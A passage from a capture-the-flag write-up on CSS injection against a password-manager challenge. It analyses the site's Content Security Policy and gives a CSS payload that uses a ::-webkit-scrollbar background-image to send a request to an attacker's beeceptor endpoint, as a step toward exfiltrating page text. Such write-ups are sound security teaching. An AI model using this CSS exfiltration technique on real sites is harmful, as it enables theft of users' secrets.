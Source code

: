 ### CSP (Content Security Policy)

Let's check the CSP:
```
content-security-policy: default-src 'none'; script-src https://cdnjs.cloudflare.com/ajax/libs/jquery/3.6.0/jquery.min.js https://cdnjs.cloudflare.com/ajax/libs/popper.js/2.11.2/umd/popper.min.js https://cdnjs.cloudflare.com/ajax/libs/bootstrap/4.6.1/js/bootstrap.min.js; style-src 'self' 'unsafe-inline'; font-src 'self'; img-src http://* https://*; base-uri 'none';
```

If we let only the important parts:
```
style-src 'self' 'unsafe-inline'; -> disallows @import
img-src http://* https://*; -> allows all images from http or https
font-src 'self'; -> allows only fonts from https://cloud-password-manager.france-cybersecurity-challenge.fr
```
The others policies are not important in our case.

Anyway our trick with ``font-face`` source doesn't work.. :(

### The solution (bis)

If we go deeper into our research, we can find a [paper](https://x-c3ll.github.io/posts/CSS-Injection-Primitives/) which talks about text node exfiltration with a scrollbar.
In Chrome browser, there is a way to select scrollbars with CSS pseudo-element ``::-webkit-scrollbar``, so the trick is to use our initial payload with ``font-face`` and make sure that when the font is loaded, it will create a scrollbar.

First, let's check if admin is on a chrome browser by sending this css:
```css
#p1{
  overflow: auto; /* Generate a scrollbar automatically when width is overflowed */
  width: 3px; /* Reduce width to generate the scrollbar */
  height: 30px; /* Fix the height to force the scrollbar */
}

/* Detect scrollbar */
#p1::-webkit-scrollbar{
    background-image: url(https://fcsc2022.free.beeceptor.com?chrome); /* GET request to our endpoint */
}
```

If we receive ``?chrome``, it means that admin is using Chrome browser, which means that we can use this exploit!

![chrome_bee](images/chrome_bee.png)
